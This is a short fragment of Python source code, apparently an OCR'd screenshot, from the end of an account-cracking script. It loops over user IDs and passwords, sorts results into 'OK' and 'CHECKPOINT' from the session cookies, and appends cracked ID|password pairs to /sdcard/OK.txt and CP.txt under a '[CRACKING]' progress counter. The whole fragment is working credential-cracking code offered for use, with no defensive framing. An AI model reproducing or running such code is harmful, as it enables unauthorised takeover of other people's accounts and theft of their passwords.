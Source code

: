                 open('/sdcard/OK.txt', 'a').write(uid+' | '+ps+'\n')
                ok.append(uid)
            elif 'checkpoint' in log_cookies:
                    coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                    uid=coki[141:156]
                    print(f'\r\33[1;97m[\033[1;91mCHECKPOINT\033[1;97m]\033[1;90m '+uid+' | '+ps+' ')
                    open('/sdcard/CP.txt', 'a').write(uid+' | '+ps+'\n')
                    cp.append(uid)
                    break
            else:
                continue
        loop+=1
        sys.stdout.write(f'\r\33[1;37m[CRACKING] [%s]  OK: %s CP: %s'%(loop,len(ok),len(cp))), 
        sys.stdout.flush()
    except:
        pass
#---------------------[END MENU]---------------------#
if __name__ == '__main__':
    main()
